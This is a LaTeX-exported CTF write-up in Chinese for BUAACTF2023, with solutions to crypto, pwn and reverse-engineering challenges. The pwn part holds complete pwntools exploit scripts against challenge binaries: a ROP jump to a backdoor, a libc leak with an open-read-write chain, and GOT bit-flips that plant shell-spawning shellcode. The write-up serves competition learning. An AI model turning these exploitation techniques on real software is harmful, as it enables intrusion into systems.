% Created 2023-04-27 Thu 14:18
% Intended LaTeX compiler: pdflatex
\documentclass[11pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{graphicx}
\usepackage{longtable}
\usepackage{wrapfig}
\usepackage{rotating}
\usepackage[normalem]{ulem}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{capt-of}
\usepackage{hyperref}
\author{John Doe}
\date{\today}
\title{}
\hypersetup{
 pdfauthor={John Doe},
 pdftitle={},
 pdfkeywords={},
 pdfsubject={},
 pdfcreator={Emacs 28.2 (Org mode 9.6.1)}, 
 pdflang={English}}
\begin{document}

\tableofcontents

---
title: ``BUAACTF2023 WP''
date: 2023-04-26T13:53:31+08:00
tags: ['ctf', 'pwn']
categories: ['life', 'learning']
draft: false
cover: ``/img/2023-04-26\textsubscript{buaactf2023.png}''
---
\section{crypto}
\label{sec:orgad136fb}
\subsection{Block Cipher}
\label{sec:org9416cbf}
直接写个解密
\begin{verbatim}
def decrypt(parts):
    iv = b'\xba=y\xa3\xc6)\xcf\xf7'
    key = b'}6E\xeb(\x91\x08\xa0'
    results = []
    for index, part in enumerate(parts):
        results.append(reduce(xor, [part, iv if index == 0 else parts[index-1], key]))
    return results
\end{verbatim}

\section{pwn}
\label{sec:org2c4c82a}
\subsection{NLP}
\label{sec:org7d16117}
pwntools使用。后面的信息提取有点恶心
\begin{verbatim}
#encoding: utf-8
from pwn import *
p = remote("10.212.26.206", "23004")

for i in range(20):
    p.recvuntil("A = :")
    a = int(p.recvline())
    p.recvuntil("B = :")
    b = int(p.recvline())
    p.recvuntil("a ")
    op = p.recv(1)
    p.recvuntil("b:")
    if(op == b"+"):
        p.sendline(str(a+b))
    elif(op == b"-"):
        p.sendline(str(a-b))
    elif(op == b"*"):
        p.sendline(str(a*b))

ID_address={"110000":"北京市",
"110100":"市辖区",
"110101":"东城区",
"110102":"西城区",
"110103":"崇文区",
"110104":"宣武区",
"110105":"朝阳区",
"110106":"丰台区",
"110107":"石景山区",
"110108":"海淀区",
"110109":"门头沟区",
"110111":"房山区",
"110112":"通州区",
"110113":"顺义区",
"110114":"昌平区",
"110115":"大兴区",
"110117":"平谷区",
"110116":"怀柔区",
"110228":"密云区",
"110229":"延庆区"
}

def sortinfo(info):
    sortedinfo = [0, 0, 0, 0, 0, 0 ,0, 0]
    for i in info:
        if len(i)==11 and i.isdigit():
            sortedinfo[0] = i
        elif '@' in i:
            sortedinfo[1] = i
        elif 'http' in i:
            sortedinfo[2] = i[:-1]
        elif i[-1] == '日':
            sortedinfo[3] = i
        elif '.' in i:
            sortedinfo[4] = i
        elif len(i) >= 18 and i[-18:-1].isdigit():
            sortedinfo[5] = i[-18:]
        elif 'k-' in i:
            sortedinfo[6] = i
        else:
            sortedinfo[7] = i
    return sortedinfo

def parseinfo(infostr):
    info = []
    for i in range(8):
        infostr = infostr[infostr.find(":")+1:]
        s = infostr[:infostr.find("。")]
        infostr = infostr[len(s):]
        info.append(s)
    def parse_id(ID_card):
        ID_add=ID_card[0:6]
        ID_birth=ID_card[6:14]
        ID_pdnum=ID_card[14:16]
        ID_sex=ID_card[16:17]
        ID_check=ID_card[17:18]
        if int(ID_sex)%2 !=0:
            sex='男'
        elif int(ID_sex)%2==0:
            sex='女'
        output = " (地区: "+ID_address[ID_add]
        output += ", 生日: "+ID_birth[:4]+"年"+str(int(ID_birth[4:6]))+"月"+str(int(ID_birth[6:]))+"日"
        output += ", 性别: "+sex+")"
        return output
    print(info)
    info = sortinfo(info)
    print(info)
    output = "电话: "+info[0]
    output += " | 邮箱: "+info[1]
    output += " | URL: "+info[2]
    output += " | 日期: "+info[3]
    output += " | IP: "+info[4]
    output += " | 身份证: "+info[5]+parse_id(info[5])
    output += " | 薪资: "+info[6]
    output += " | 工作时间: "+info[7]
    return output
# def extra():
#     p.recvuntil(":")
#     return p.recvuntil("。", drop=True)
p.recvuntil("Sample Ad:\n")
samplead = str(p.recvuntil("Sample Output:\n", drop=True).decode())
print(samplead)
parsedsample = parseinfo(samplead)
sample = str(p.recvuntil("Generated Ad:\n", drop=True).decode())
print(sample)
print(parsedsample)

def parse_ad():

    infostr = str(p.recvuntil("Please", drop=True).decode())

    print(infostr)
    output = parseinfo(infostr)
    print(output)
    p.sendline(output)
    # p.interactive()

# p.interactive()
for i in range(20):
    parse_ad()
    log.success("round"+str(i))
p.interactive()
\end{verbatim}
\subsection{pirate}
\label{sec:org24866ad}
跟着算法走一遍就行,然后rop跳到后门
\begin{verbatim}
from pwn import *
p = process("pirate")
p = remote("10.212.26.206", "23002")
p.recvuntil("you and ")
pir_num = int(p.recvuntil(" ")) + 1
p.recvuntil("have ")
gold_num = int(p.recvuntil(" "))
gold_dist = list(range(pir_num+2))
gold_rem = gold_num
for i in range(pir_num, 0, -1):
    v6 = pir_num - i + 1
    v10 = 0
    for j in range(pir_num, i-1, -1):
        if v6 == pir_num - j + 1:
            gold_dist[j+1] = gold_rem
            gold_rem -= gold_dist[j+1]
            v10 += 1
        elif gold_dist[j+1] <= 0:
            gold_dist[j+1]=1
            gold_rem -= 1
            v10 += 1
        else:
            gold_rem += gold_dist[j + 1]
            gold_dist[j + 1] = 0
    if float(v10)/v6 < 0.5:
        break
for i in range(2, pir_num+2):
    p.sendline(bytes(gold_dist[i]))
# p.interactive()
p.recvuntil("something.")
payload = 'a'*16+p64(0x40101a)+p64(0x401236)
p.sendline(payload)
p.interactive()
\end{verbatim}
\subsection{noshell}
\label{sec:orgced94c0}
基础orw
\begin{verbatim}
from pwn import *
p = process("noshell")
p = remote("10.212.26.206", "23001")
elf = ELF("noshell")
libc = ELF("libc-2.27.so")

num = 0x404080
rdiret = 0x401373
# leak
p.recvuntil("~\n")
p.sendline(p64(0))
p.recvuntil("?\n")
payload1 = 'a'*16+p64(rdiret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
p.send(payload1)
putsgot = u64(p.recvuntil('\x7f').ljust(8, '\x00'))
log.success("puts got: " + hex(putsgot))
libcbase = putsgot - libc.sym['puts']
# p.interactive()

o = libc.sym['open']+libcbase
r = elf.plt['read']
w = elf.plt['puts']

# orw
rspret = 0x396c + libcbase
rdxrsiret = 0x130539 + libcbase
payload2 = p64(rdiret)+p64(num+0x100)+p64(rdxrsiret)+p64(0)+p64(0)+p64(o)
payload2 += p64(rdiret)+p64(0x3)+p64(rdxrsiret)+p64(50)+p64(num+0x100)+p64(r)
payload2 += p64(rdiret)+p64(num+0x100)+p64(w)
payload2 += 'a'*(0x100-len(payload2))
payload2 += './flag\x00'

# p.interactive()
p.recvuntil("~\n")
p.sendline(payload2)
p.recvuntil("?\n")
payload3 = 'a'*16+p64(rspret)+p64(num)
p.sendline(payload3)
p.interactive()
\end{verbatim}

\subsection{lose yourself}
\label{sec:org7708e5c}
给了一个mprotect后门让.text段可写。程序的功能是每次修改任意地址的1个bit。那思路就是想办法跳转到mprotect后门,然后在代码段写入shellcode,最后想办法跳过去。

所以第一步是想办法跳到后门上。注意到在写完bit后用了一个exit。第一次修改就改exit的got。作者精心准备了一连串的空函数作为跳板,跟着走到最后能把exit的got改成后门地址。
\begin{verbatim}
from pwn import *
import binascii
from Crypto.Util.strxor import strxor
context.arch="amd64"
context.terminal = ['tmux', 'splitw', '-h']
p = process("one_chance")
p = remote("10.212.27.23", "12138")

def flip_bit(addr, bitnum):
    p.recvuntil("?")
    p.sendline(addr)
    p.sendline(bitnum)

# call mprotect
flip_bit("404039", "0")
flip_bit("404038", "6")
flip_bit("404038", "7")
flip_bit("404038", "2")
flip_bit("404038", "1")
\end{verbatim}
然后往0x10e1写入shellcode,这样就能通过改最后jmp地址的一位跳过去。
\begin{verbatim}
# write shellcode
dump_10e1 = binascii.unhexlify("50 54 49 C7 C0 10 13 40 00 48 C7 C1 A0 12 40 00 48 C7 C7 D5 11 40 00 FF 15 F2 2E 00 00 F4 90 F3 0F 1E FA C3 66 2E 0F 1F 84 00 00 00 00 00 90 B8".replace(" ", ""))
shellcode = asm(shellcraft.amd64.linux.sh())
modi_bytes = strxor(dump_10e1, shellcode)
for idx, i in enumerate(modi_bytes):
    if i != '\x00':
        log.success("flipping "+hex(int("0x4010e1", 16)+idx))
        for j in range(8):
            if 2**j & ord(i) != 0:
                p.recvuntil("?")
                p.sendline(hex(int("0x4010e1", 16)+idx))
                p.sendline(str(j))

# modify jmp
p.recvuntil("?")
p.sendline("401299")
p.sendline("0")
p.interactive()
\end{verbatim}
\section{re}
\label{sec:org21b000e}
\subsection{snake}
\label{sec:org3aa16d4}
其实直接动态调试就能出来。但我开始没想到,用python des解密出来的。
\begin{center}

\includegraphics[width=.9\linewidth]{/img/2023-04-26_snake.png}
\end{center}
flag 用des加密后存在数据段。密钥直接写在代码里
\begin{center}

\includegraphics[width=.9\linewidth]{/img/2023-04-26_desdecrypt.png}
\end{center}
\subsection{minesweep}
\label{sec:orgc53ffdd}
\begin{center}

\includegraphics[width=.9\linewidth]{/img/2023-04-26_minesweepenc.png}
\end{center}
加密过程用到了mine数组,一个7*7,用字符‘a'和'b'表示。然后对flag前7个字符中的小写字母加密。第i个字符用mine中的第i行以及该字符后面的6个字符一起加密。这样只要从后往前恢复每个字符就行。但是mine在程序运行后会先计算周围的地雷数量。
\begin{center}

\includegraphics[width=.9\linewidth]{/img/2023-04-26_minecal.png}
\end{center}
可以直接动调后再把mine倒出来解密。
\begin{verbatim}
mine2 = [
    [0, 2, 2, 3, 3, 2, 3],
    [2, 4, 3, 2, 3, 2, 0],
    [2, 5, 3, 4, 1, 2, 2],
    [3, 3, 3, 1, 3, 2, 2],
    [3, 3, 4, 1, 3, 1, 2],
    [2, 2, 0, 3, 4, 2, 2],
    [0, 3, 2, 3, 1, 0, 2]
]
c = "vahii"
for k in range(4, -1, -1):
    temp = 0
    for i in range(7):
        for j in range(7):
            temp += (ord(flag[i])-97)^mine2[i][j]
    poschr = ""
    for l in range(26):
        if chr((temp^l)%26+97) == c[k]:
            tmpchr = chr(l+97)
            poschr += tmpchr
            break

    print(temp, c[k])
    print(poschr)
    flag = tmpchr+flag

print(flag)
\end{verbatim}

\subsection{ezvm}
\label{sec:orgceee75b}
初始化的地址做了1字节的偏移,ida上稍微调整一下。大致是malloc了两个结构体,第一个偏移0x40的地方用来存指令地址和ip,ZF,还有第二个结构的地址。第二个用来存输入字符串和加密后的flag。
\begin{center}

\includegraphics[width=.9\linewidth]{/img/2023-04-26_11e9.png}
\end{center}
然后是痛苦的瞪。瞪了一下午硬逆了8条指令。
\begin{center}

\includegraphics[width=.9\linewidth]{/img/2023-04-26_ezvm.jpeg}
\end{center}
最后解析指令集,发现只是简单的xor。
以前没有怎么做过re,这次做这题本来是为了做pwn的ezvm。后面做pwn的时候感觉快出了但时间不太够了。。
\end{document}